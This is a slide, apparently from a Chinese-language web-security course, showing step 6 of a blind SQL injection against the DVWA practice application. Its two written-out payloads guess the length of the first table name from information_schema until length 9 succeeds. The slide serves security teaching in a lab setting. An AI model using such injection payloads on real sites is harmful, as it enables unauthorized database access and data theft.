

# 步骤6
猜解第一个表表名长度
1’ and length(substr((select table_name from information_schema.tables where table_schema=‘dvwa’ limit 0,1),1))=1 #
错误
1’ and length(substr((select table_name from information_schema.tables where table_schema=‘dvwa’ limit 0,1),1))=9 #
试到9试成功，说明第一个表名长度为9
37
2022/6/11